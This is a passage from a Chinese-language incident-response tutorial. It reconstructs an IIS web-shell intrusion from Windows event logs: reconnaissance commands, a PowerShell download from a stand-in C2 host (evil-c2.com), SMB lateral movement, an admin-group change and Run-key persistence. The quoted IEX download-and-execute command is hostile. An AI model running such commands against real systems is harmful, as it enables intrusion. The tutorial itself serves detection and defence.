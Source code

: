 1. **证据**  
: 在 w3wp.exe  
 进程对应用户（如 IUSR  
 或 DefaultAppPool  
）的 ConsoleHost_history.txt  
 文件中，发现了以下命令：whoami  
, ipconfig /all  
, net user  
, query user  
。  
  
1. **分析**  
: 攻击者在获得 Shell 后，立即进行了手动信息收集，了解当前权限和网络环境。  
  
1. **【载荷下载与解密】 - PowerShell Event ID 4104**  
  
1. **证据**  
: 脚本块日志捕获到了一段经过 Base64 编码的命令被执行，解码后的内容为：IEX (New-Object Net.WebClient).DownloadString('http://evil-c2.com/Invoke-PowerSploit.ps1')  
。  
  
1. **分析**  
: 攻击者正在从 C2 服务器下载更强大的、功能完备的攻击框架 PowerSploit，准备进行下一步行动。**4104 让我们看到了他真正的武器**  
。  
  
1. **【横向移动尝试】 - Sysmon Event ID 3**  
  
1. **证据**  
: Sysmon 记录到 powershell.exe  
 (PID 5678) 正在尝试连接内网中另一台主机 192.168.1.100  
 的 445  
 端口（SMB服务）。  
  
1. **分析**  
: 攻击者在利用下载的工具，尝试进行横向移动，感染内网其他机器。  
  
1. **【权限提升】 - Windows 安全日志 Event ID 4732**  
  
1. **证据**  
: 事件日志显示，web-admin  
 账户被添加到了本地 Administrators  
 组。  
  
1. **分析**  
: 攻击者可能通过其他漏洞或窃取到的凭据，成功将一个低权限账户提升为管理员。  
  
1. **【持久化】 - Sysmon Event ID 13**  
  
1. **证据**  
: Sysmon 记录到注册表键 HKLM\Software\Microsoft\Windows\CurrentVersion\Run  
 被修改，添加了一个新的启动项，指向一个隐藏在 C:\Windows\Temp\  
 目录下的恶意脚本。  
  
1. **分析**  
: 攻击者建立了持久化后门，确保即使服务器重启，他也能重新获得控制权。  
  
通过这一系列环环相扣的日志证据，我们不仅抓住了“小偷”，还画出了他从“撬门”到“藏匿”的完整犯罪地图。  
## 阶段五：“主动出击”：从响应到威胁狩猎  
  